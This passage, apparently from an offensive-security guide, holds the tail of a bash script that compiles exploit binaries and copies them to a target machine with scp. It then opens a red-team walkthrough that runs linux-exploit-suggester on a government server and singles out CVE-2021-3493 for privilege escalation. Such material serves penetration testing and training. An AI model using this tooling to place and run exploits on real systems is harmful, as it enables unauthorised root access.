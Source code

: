 ```bash
                chmod +x "${EXPLOIT_NAME}_32bit"
            fi
        fi
    else
        echo "[-] Compilation failed. See compilation_error.log for details."
        cat compilation_error.log
        
        # Check if compilation failed due to missing libraries
        if grep -q "fatal error: " compilation_error.log; then
            MISSING_LIBS=$(grep "fatal error: " compilation_error.log | sed 's/.*fatal error: \(.*\): No such.*/\1/')
            echo "[!] Missing libraries detected: $MISSING_LIBS"
            echo "    On Debian/Ubuntu, try installing: libc6-dev or build-essential"
            echo "    For 32-bit support: try installing gcc-multilib and libc6-dev-i386"
        fi
    fi
done

# Transfer to target if specified
if [ -n "$TARGET_IP" ] && [ -n "$TARGET_USER" ]; then
    COMPILED_EXPLOITS=$(find . -type f -executable -not -path "*/\.*")
    
    if [ -n "$COMPILED_EXPLOITS" ]; then
        echo "[+] Transferring exploits to $TARGET_USER@$TARGET_IP:$TARGET_PATH"
        for EXPLOIT in $COMPILED_EXPLOITS; do
            scp "$EXPLOIT" "$TARGET_USER@$TARGET_IP:$TARGET_PATH"
            if [ $? -eq 0 ]; then
                echo "[+] Successfully transferred $(basename "$EXPLOIT")"
            else
                echo "[-] Failed to transfer $(basename "$EXPLOIT")"
            fi
        done
    else
        echo "[-] No compiled exploits found to transfer"
    fi
else
    echo "[*] Exploits compiled in $WORK_DIR"
    echo "    Transfer them manually to the target system"
fi

echo "[+] Process completed!"
```

### Example: Targeting Kernel Exploits

During a red team engagement against a government agency's infrastructure, we encountered a server with limited privilege escalation paths but identified a kernel vulnerability using Linux Exploit Suggester:

1. **Initial Reconnaissance**:
   ```bash
   # Transferred linux-exploit-suggester.sh to the target
   ./linux-exploit-suggester.sh

   # Output identified several potential kernel vulnerabilities
   # Most promising: CVE-2021-3493 (Ubuntu OverlayFS)
   ```
